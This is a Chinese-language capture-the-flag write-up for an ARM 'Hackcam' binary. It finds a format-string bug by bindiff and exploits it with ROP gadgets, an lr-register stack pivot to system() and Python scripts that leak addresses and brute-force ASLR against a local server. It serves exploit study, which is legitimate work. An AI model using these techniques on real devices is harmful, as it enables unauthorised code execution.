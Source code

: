 # Hackcam

和最新版本做bindiff，找到修复了一个格式化字符串。
![alt text](image.png)		

利用起来比较困难，字符串本身不在栈上，所以只能利用栈上原有的指针。首先观察到可以写两个跳转地址，但是没有找到很好的方式通过两次跳转实现任意命令执行，所以想到了利用lr寄存器+栈迁移实现第三次跳转，实现的方法如下：

栈上两个跳转地址写成这两个gadget

```
# 0x0000583c: ldr r3, [fp, #-0xc]; mov r0, r3; sub sp, fp, #4; pop {fp, pc}; 
# 0x000053f4: ldr r3, [r3]; mov r0, r3; add sp, fp, #0; pop {fp}; bx lr; 
```

格式化字符串第一个参数是格式化字符串的地址，写进去调用system的地址，第34个参数最后会传进sp，写字符串地址，最终将栈迁移到字符串地址上，第5个参数会被加载进r0，作为参数，写字符串地址+4，跳过前面4位system地址。

在第二次跳转之后，由于执行过程中进行了跳转，所以lr是一个合法地址，在下面这个位置，可以完成一次栈迁移及控制流劫持。

```
   0x46d9c0    nop
   0x46d9c4    sub    sp, fp, #4
   0x46d9c8    pop    {fp, pc}
```

经过一些测试，字符串的地址随着输入长度的不同会有变化，因此先传进去同样的输入leak字符串地址。

```python
while True:
    res = requests.put(url, json=j, headers=header)
    # print(res.text)
    if res.text[20] != " " and res.text[20] != ";":
        addr = int(res.text[24:28], 16) + 0x450000
        print(hex(addr))
        pad = addr - 0x40A9C0
        pad_str = str(pad)
        pad_str = pad_str[0] + "%3" + pad_str[1:]
        break

print(pad_str)
```

爆破aslr，32位机器只有一位随机，很好爆破，不过有时候会观察到json中的项顺序和输入不同，实际成功的概率要比1/16稍低一些。

```python
for i in range(100):
    res = requests.put(url, json=j, headers=header)
    if res.text[20] != " " and res.text[20] != ";":
        addr = int(res.text[22:24], 16)
        print(hex(addr))
        if addr == 0x49:
            res = requests.get("http://127.0.0.1:8080/index.html", headers=header)
            if "flag" in res.text:
                print(res.text)
                break
```
